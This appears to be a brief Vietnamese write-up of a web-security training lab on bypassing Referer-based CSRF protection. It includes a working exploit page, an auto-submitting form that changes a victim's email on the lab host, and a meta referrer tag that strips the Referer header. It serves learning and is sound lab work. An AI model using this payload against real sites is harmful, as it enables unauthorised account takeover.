


## CSRF where Referer validation depends on header being present

1. Login vào account được cấp, update email nhận thấy trong request không chứa csrf token.

2. Craft trang exploit

```
<form method="POST" action="https://0a7a00b204b88734c42a46aa00a300d0.web-security-academy.net/my-account/change-email">
<input name="email" value="sv_cuongdm@viettel.com"/>
</form>

<script>
	document.forms[0].submit();
</script>
```

-> Nhận được message thông báo referer header không hợp lệ.

3. Trong request đó referer header từ trang exploit. Do đó trường referer được dùng để xác định request change email có được gửi từ một host không. Thử gửi một request đổi email mà không có trường referer thì nhận thấy thành công.



4. Sử dụng thẻ `<meta name="referrer" content="never">` để khi gửi request không kèm referer header.

